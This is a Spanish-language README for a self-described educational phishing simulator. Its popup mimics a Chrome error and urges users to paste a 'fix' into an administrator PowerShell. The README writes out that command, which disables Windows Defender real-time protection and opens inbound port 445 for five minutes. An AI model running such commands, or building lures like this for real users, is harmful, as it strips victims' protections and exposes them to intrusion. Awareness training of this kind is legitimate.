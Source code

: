 
# 🎣 Simulador de Phishing - Concientización en Ciberseguridad

Este proyecto es una **simulación de ataque phishing** desarrollada con fines **educativos y de concientización**, pensada para demostrar cómo funcionan ciertas técnicas engañosas utilizadas por atacantes reales. El archivo principal es `popup.html`, el cual simula un mensaje emergente falso con una apariencia legítima y botones que inducen al usuario a ejecutar comandos maliciosos.

---

## ⚠️ IMPORTANTE

> **Este proyecto es únicamente para uso educativo, en entornos controlados y con consentimiento informado.**  
> ❌ No debe ser utilizado con fines maliciosos ni en sistemas de terceros sin autorización expresa.

---

## 📝 Descripción del proyecto

El archivo `popup.html` muestra una ventana emergente que simula un error en el navegador Chrome. La interfaz guía al usuario a "copiar una solución" para luego pegarla en PowerShell como administrador, lo cual replica un ataque real de ingeniería social.

📦 Puede ser invocado desde otra web con este código:

```javascript
window.open("popup.html", "popupWindow", "width=600,height=400,resizable=no,scrollbars=no");
```

### 🔧 Funciones simuladas

- 🖼️ Imitación visual de un mensaje de error oficial.
- 📋 Botón de “Copiar solución” que copia un comando PowerShell.
- ❌ Botón para cerrar manualmente el popup.
- 🎨 Animaciones suaves y diseño similar al de Google Chrome.

---

## 🎯 Objetivo

El objetivo principal es educar sobre:

- 🧠 Cómo los atacantes engañan visualmente a los usuarios.
- 🛠️ Qué tipo de comandos pueden ocultar detrás de mensajes aparentemente confiables.
- 🔐 La importancia de **no ejecutar comandos sin verificar su procedencia**.

---

## 🧪 Comando simulado

Este es el comando que se copia al portapapeles:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; netsh advfirewall firewall add rule name="Puerto_445_TCP" dir=in action=allow protocol=TCP localport=445; Start-Sleep -Seconds 300; Set-MpPreference -DisableRealtimeMonitoring $false; netsh advfirewall firewall delete rule name="Puerto_445_TCP"
```

☠️ Este tipo de comando desactiva temporalmente el antivirus y abre puertos del firewall: algo **altamente peligroso en escenarios reales**.

---

## 🧑‍🏫 Uso recomendado

Utilizá este simulador en:

- 🧪 Laboratorios de ciberseguridad.
- 🧑‍💻 Capacitaciones y charlas educativas.
- 🧠 Ejercicios de ingeniería social simulada.
- 🔍 Auditorías internas con propósito de concientización.

---

## 🗂️ Archivos

- `popup.html`: ventana emergente con el mensaje falso y botones interactivos.
- Código externo JS: para abrir el popup desde otra web.

---

## 🧑‍🏫 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.

---

## 📄 Licencia

Este material se distribuye bajo la licencia [MIT](LICENSE).

---

> Si te resulta útil, ¡no olvides darle ⭐ al repo o compartirlo!
## 🛑 Disclaimer legal

Este proyecto fue creado exclusivamente con fines educativos.  
**⚖️ No nos responsabilizamos por el mal uso del código ni por las consecuencias legales o técnicas derivadas de su uso inapropiado.**

